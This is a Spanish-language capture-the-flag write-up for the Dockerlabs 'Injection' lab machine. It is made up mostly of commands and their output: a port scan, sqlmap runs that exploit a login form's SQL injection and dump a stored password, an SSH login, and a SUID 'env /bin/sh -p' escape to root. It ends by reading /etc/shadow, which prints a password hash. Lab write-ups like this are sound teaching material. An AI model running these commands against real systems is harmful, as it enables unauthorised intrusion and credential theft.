



# Injection - Dockerlabs

## Reconocimiento

Vamos a realizar un escaneo de puertos con nmap para ver que servicios están corriendo en la máquina.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Vemos que al visitar http://172.17.0.2/ nos encontramos ante un loggin de un panel de loggin.



Vemos que al introducir el usuario ``hola'` con contraseña cualquiera nos devuelve un mensaje de error SQL, lo que nos indica que la aplicación puede ser vulnerable a inyecciones SQL, además el nombre de la máquina es Injection lo que nos da una pista. 

```
 SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'a'' at line 1 
```

# Explotación

Vamos a lanzar una serie de comandos con sqlmap, el primer, es para ver el nombre de la base de datos.

```bash
sqlmap -u "http://172.17.0.2/index.php" --dbs --batch --forms

# --dbs = Enumerar bases de datos
# --batch = No preguntar nada para que sqlmap haga todo automáticamente
# --forms = Para que sqlmap busque formularios, pues tenemos un loggin

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] register
[*] sys
```

Ahora vamos a enumerar las tablas de la base de datos register, que es la mas interesante

```bash
sqlmap -u "http://172.17.0.2/index.php" -D register --tables --batch --forms

Database: register
[1 table]
+-------+
| users |
+-------+
```

De manera similar, vamos a enumerar las columnas de la tabla users

```bash
sqlmap -u "http://172.17.0.2/index.php" -D register -T users --columns --batch --forms

Database: register
Table: users
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| passwd   | varchar(30) |
| username | varchar(30) |
+----------+-------------+
```

Ahora dumpeamos datos de la tabla users y passwd

```bash
sqlmap -u "http://172.17.0.2/index.php" -D register -T users -C passwd,username --dump --batch --forms

Database: register
Table: users
[1 entry]
+------------------+----------+
| passwd           | username |
+------------------+----------+
| KJSDFG789FGSDF78 | dylan    |
+------------------+----------+
```

Ya que hemos sacado la info vamos a loggearnos con el usuario dylan y la contraseña KJSDFG789FGSDF78.



Vamos ahora al ssh a ver si podemos entrar con estas credenciales.
Logramos entrar.

## Escalada de privilegios

Vamos a comprobar si pertenecemos a algún grupo crítico, si hay sudoers, kernel exploits o si hay algún binario con SUID.

```bash
dylan@8bd2e224598b:~$ id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)

dylan@8bd2e224598b:~$ sudo -l
-bash: sudo: command not found

dylan@8bd2e224598b:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 22.04.4 LTS
Release:	22.04
Codename:	jammy

/usr/bin/chfn
/usr/bin/chsh
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

https://gtfobins.org/gtfobins/env/#shell
Vemos que el binario env, por lo que podemos ejecutar lo siguiente:

```bash
dylan@8bd2e224598b:~$ env /bin/sh -p
# whoami
root
# id
uid=1000(dylan) gid=1000(dylan) euid=0(root) groups=1000(dylan)
# cat /etc/shadow
root:$y$j9T$DtfaDB2LKo2swYFYHsO9T/$6Hja.Xpo0mGzM.pDktVNmeBP645lFfVvdX/nUvneOs/:19807:0:99999:7:::
```

Como prueba de que somos root, entramos a /var/www/html/acceso_valido_dylan.php y vemos que el nopmbre y contraseña estaban hardcodeados

